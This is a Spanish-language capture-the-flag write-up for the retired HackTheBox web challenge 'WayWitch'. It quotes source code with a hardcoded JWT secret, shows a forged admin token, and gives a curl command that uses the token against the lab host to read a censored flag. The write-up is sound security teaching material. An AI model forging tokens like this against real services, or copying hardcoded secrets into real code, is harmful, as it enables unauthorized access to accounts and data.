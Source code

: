 ```yaml
---
layout: ctf
title: "WayWitch"
date: 2025-09-18
category: "Web"
description: "Falsificación de Json Web Tokens"

---
```



# Way Witch 

Este es un reto web retirado de HackTheBox diseñado para enseñar los fundamentos de la falsificación de tokens JWT (JSON Web Tokens). El objetivo principal es comprender cómo identificar y explotar vulnerabilidades relacionadas con secretos JWT débiles o hardcodeados en aplicaciones web reales.

## Análisis Inicial

La descripción del reto nos da varias pistas sobre la vulnerabilidad:Hidden in the shadows, a coven of witches communicates through arcane tokens, their messages cloaked in layers of dark enchantments. These enchanted tokens safeguard their cryptic conversations, masking sinister plots that threaten to unfold under the veil of night. However, whispers suggest that their protective spells are flawed, allowing outsiders to forge their own charms. Can you exploit the weaknesses in their mystical seals, craft a token of your own, and infiltrate their circle to thwart their nefarious plans before the next moon rises?
- "tokens arcanos" → Tokens de autenticación (probablemente JWT)
- "hechizos protectores defectuosos" → Vulnerabilidad en la validación de tokens
- "forjan sus propios hechizos" → Ataque de falsificación de tokens
- "crear un token propio" → Necesitamos crear un token malicioso

## Reconocimiento

### Análisis de la Aplicación Web
Primero, accedí a la aplicación web y descubrí:
- Un sistema de envío de tickets llamado "WitchWay"
- JavaScript genera automáticamente tokens JWT para usuarios invitados
- La aplicación usa cookies para almacenar tokens de sesión

![Interfaz principal de la aplicación]({{site.baseurl}}/assets/images/way/interfaz.png)
### Revisión del Código Fuente
El reto proporcionó archivos de código fuente que revelaron la estructura de la aplicación:
- Backend **Node.js/Express**
- Base de datos **SQLite** con tickets
- Sistema de autenticación **JWT**

#### Análisis de Archivos Clave

**`util.js` - La Vulnerabilidad Crítica**
```javascript
const jwt = require("jsonwebtoken");

function getUsernameFromToken(token) {
  const secret = "halloween-secret"; // ← SECRETO HARDCODEADO!
  
  try {
    const decoded = jwt.verify(token, secret);
    return decoded.username;
  } catch (err) {
    throw new Error("Invalid token: " + err.message);
  }
}
```

**¡El secreto JWT está hardcodeado!** Esto es una vulnerabilidad crítica que permite la falsificación de tokens.

**`routes/index.js` - Control de Acceso**
```javascript
router.get("/tickets", async (req, res) => {
  const sessionToken = req.cookies.session_token;
  
  if (!sessionToken) {
    return res.status(401).json(response("No session token provided"));
  }
  
  try {
    const username = getUsernameFromToken(sessionToken);
    
    if (username === "admin") { // ← Solo admins pueden ver tickets
      try {
        const tickets = await db.get_tickets();
        return res.status(200).json({ tickets });
      } catch (err) {
        return res.status(500).json(response("Error fetching tickets: " + err.message));
      }
    } else {
      return res.status(403).json(response("Access denied. Admin privileges required."));
    }
  } catch (err) {
    return res.status(400).json(response(err.message));
  }
});
```

**`database.js` - La Flag Objetivo**
```javascript
await this.db.exec(`
  INSERT INTO tickets (name, username, content) VALUES
  ('Admin', 'admin', 'Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter ${flag}'),
  // ... otros tickets
`);
```

La flag está en el contenido del ticket del usuario 'admin'.
Capturamos nuestro token de sesion con el que luego vamos a forjar el de admin

![token usuario]({{site.baseurl}}/assets/images/way/token.png)

## Identificación de la Vulnerabilidad


La aplicación comete varios errores críticos:
1. **Secreto JWT hardcodeado** en el código fuente
2. **Mismo secreto usado en frontend** (visible en el JavaScript del cliente)
3. **Control de acceso basado únicamente en el contenido del JWT**

## Explotación

### Paso 1: Generación del Token Malicioso

Usando la información obtenida del código fuente, creamos un JWT malicioso:

**Herramientas utilizadas:**
- jwt.io (online JWT generator)
- Secreto conocido: `halloween-secret`

**Payload del JWT:**
```json
{
  "username": "admin",
  "iat": 1758213146
}
```

**Token generado:**
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzU4MjEzMTQ2fQ.VOACMe_yhFP9PhzZlKyqd-2A-zfQf9330OOV0hhVHx0
```

![Generación del token en jwt.io]({{site.baseurl}}/assets/images/way/token_admin.png)

### Paso 2: Acceso a los Tickets

Realizamos una petición al endpoint `/tickets` usando el token falsificado:

```bash
curl -k "https://94.237.48.12:31749/tickets" \
     -H "Cookie: session_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzU4MjEzMTQ2fQ.VOACMe_yhFP9PhzZlKyqd-2A-zfQf9330OOV0hhVHx0"
```

![Comando curl y respuesta]({{site.baseurl}}/assets/images/way/curl.png)

### Paso 3: Obtención de la Flag

La respuesta del servidor revela todos los tickets, incluyendo el del admin que contiene la flag:

```json
{
  "tickets": [
    {
      "id": 3,
      "name": "Admin",
      "username": "admin", 
      "content": "Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{***CENSURADA***}\n"
    }
    // ... otros tickets
  ]
}
```


## Conclusión

Un reto muy diverto de Xclow3n que representa una vulnerabilidad real y común en aplicaciones web que usan JWT. La facilidad de explotación (una vez identificada la vulnerabilidad) resalta la importancia de implementar prácticas de seguridad adecuadas desde el desarrollo.


